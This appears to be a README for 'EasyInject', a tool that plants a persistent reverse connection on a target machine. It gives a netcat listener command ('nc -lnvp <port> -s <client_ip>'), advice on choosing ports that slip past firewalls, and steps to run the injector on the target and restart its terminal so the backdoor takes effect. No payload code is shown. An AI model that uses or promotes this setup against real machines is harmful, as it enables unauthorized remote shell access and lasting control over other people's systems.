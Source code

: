 # [EasyInject](https://github.com/codelao/EasyInject)

# Usage
## macOS/Linux
### 1. Start listening on specific port through netcat on client machine (don't use popular ports and keep them under 1000 to avoid problems with firewall):
```
nc -lnvp <port> -s <client_ip>
```
### 2. [Run](https://github.com/codelao/EasyInject#usage) injector on target machine.
### 3. Restart target terminal to apply changes.

# Screens
<p>
    <img src="screens/connect1.jpeg" width="40%"></br>